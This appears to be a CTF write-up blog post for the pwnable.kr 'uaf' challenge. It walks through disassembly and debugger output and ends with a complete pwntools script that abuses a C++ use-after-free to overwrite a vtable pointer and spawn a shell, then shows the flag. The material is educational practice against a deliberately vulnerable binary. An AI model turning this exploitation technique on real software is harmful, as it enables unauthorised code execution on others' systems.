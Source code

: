 ```yaml
---
layout: post
title: pwnable.kr - uaf (C++)
slug: pwnable.kr - uaf (C++)
category: PWN
published: true
---
```


It's my first time to pwn with a C++ challenge. So I need to note something here.

```bash
ssh uaf@pwnable.kr -p2222 (pw:guest)
```

## Code Review

3 choices:

1. call the virtual function(`introduce`) of two objects

2. allocate a memory chunk with arg1 size then read data from arg2 to fill that

3. delete two objects

## Find the exploitation

As the name tells, the exploit is uaf, so there is a vulnability afte delete two objects.

Our target is call the virtual function: `give_shell()`, the first choice call the other virtual function, maybe we can cover that function point.

so our plan is:

1. input 3 to delete two objects

2. allocate some useful data on the deleted memory with choice 2

3. reuse freed memory to call the virtual function with choice 1

## Solution

If we want to reuse the deleted memory, we need to set the arg1 that equals size of `man` object. so,

1. we need to figure out the chunk size of `man` or `Woman` objects.

```bash
   0x0000000000400ef7 <+51>: lea    r12,[rbp-0x50]
   0x0000000000400efb <+55>: mov    edi,0x18
   0x0000000000400f00 <+60>: call   0x400d90 <_Znwm@plt>
```

the `_Znwm@plt` is `new` function, so `0x18`is the object size.

2. next, wo need to hijacking the virtual function pointer to `get_shell`. so what about the layout of virtual function address?

the below asm code is calling virtual function:

```bash
   0x0000000000400fcd <+265>: mov    rax,QWORD PTR [rbp-0x38]
   0x0000000000400fd1 <+269>: mov    rax,QWORD PTR [rax]
   0x0000000000400fd4 <+272>: add    rax,0x8
   0x0000000000400fd8 <+276>: mov    rdx,QWORD PTR [rax]
   0x0000000000400fdb <+279>: mov    rax,QWORD PTR [rbp-0x38]
   0x0000000000400fdf <+283>: mov    rdi,rax
   0x0000000000400fe2 <+286>: call   rdx
   0x0000000000400fe4 <+288>: mov    rax,QWORD PTR [rbp-0x30]
   0x0000000000400fe8 <+292>: mov    rax,QWORD PTR [rax]
   0x0000000000400feb <+295>: add    rax,0x8
   0x0000000000400fef <+299>: mov    rdx,QWORD PTR [rax]
   0x0000000000400ff2 <+302>: mov    rax,QWORD PTR [rbp-0x30]
   0x0000000000400ff6 <+306>: mov    rdi,rax
   0x0000000000400ff9 <+309>: call   rdx
```

so rdx is function address, the rdx is from [rax], the rax is from [rax] + 8, so the rax contain the pointer to the virtual function table, introduce() is the second pointer because of the offset 8.

the rax is from rbp-0x38, so it's the pointer of the object.

Let's see what's in the rax:

```bash
pwndbg> x/2gx $rax
0x401570 <_ZTV3Man+16>: 0x000000000040117a 0x00000000004012d2
pwndbg> x/5i 0x000000000040117a
   0x40117a <_ZN5Human10give_shellEv>: push   rbp
   0x40117b <_ZN5Human10give_shellEv+1>: mov    rbp,rsp
   0x40117e <_ZN5Human10give_shellEv+4>: sub    rsp,0x10
   0x401182 <_ZN5Human10give_shellEv+8>: mov    QWORD PTR [rbp-0x8],rdi
   0x401186 <_ZN5Human10give_shellEv+12>: mov    edi,0x4014a8
pwndbg> x/5i 0x00000000004012d2
   0x4012d2 <_ZN3Man9introduceEv>: push   rbp
   0x4012d3 <_ZN3Man9introduceEv+1>: mov    rbp,rsp
   0x4012d6 <_ZN3Man9introduceEv+4>: sub    rsp,0x10
   0x4012da <_ZN3Man9introduceEv+8>: mov    QWORD PTR [rbp-0x8],rdi
   0x4012de <_ZN3Man9introduceEv+12>: mov    rax,QWORD PTR [rbp-0x8]
```

As we have seen:

`get_shell` address: Object->vptr->v1

`introduce` address: Object->vptr->(v1 + 8)

so we need to cover vptr address that after add 8 equal the address of `get_shell`(0x401570).

The current address is 0x401570, so we need to fill `0x401570 - 8 = 0x401568`

but still a problem:

```bash
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```

Because the 3rd choice has deleted two objects, however we just allocate one object, the program will crash when executing first choice. so we need to allocate two memory chunks by input 2 twice.

the final exploitation:

```python
from pwn import *

host = 'pwnable.kr'
port = 2222
user = 'uaf'
password = 'guest'
s = ssh(host=host, port=port, 
        user=user, password=password)
context.log_level = 'debug'

payload = p64(0x401568)

p = s.process(["./uaf", "24", "/dev/stdin"])
p.recvuntil('free\n')
p.sendline('3')
p.recvuntil('free\n')
p.sendline('2')
p.send(payload)
p.recvuntil('free\n')
p.sendline('2')
p.send(payload)
p.recvuntil('free\n')
p.sendline('1')
p.interactive()
```

Finally:

```bash
[*] Switching to interactive mode
$ ls
flag  uaf  uaf.cpp
$ cat flag
yay_f1ag_aft3r_pwning
```
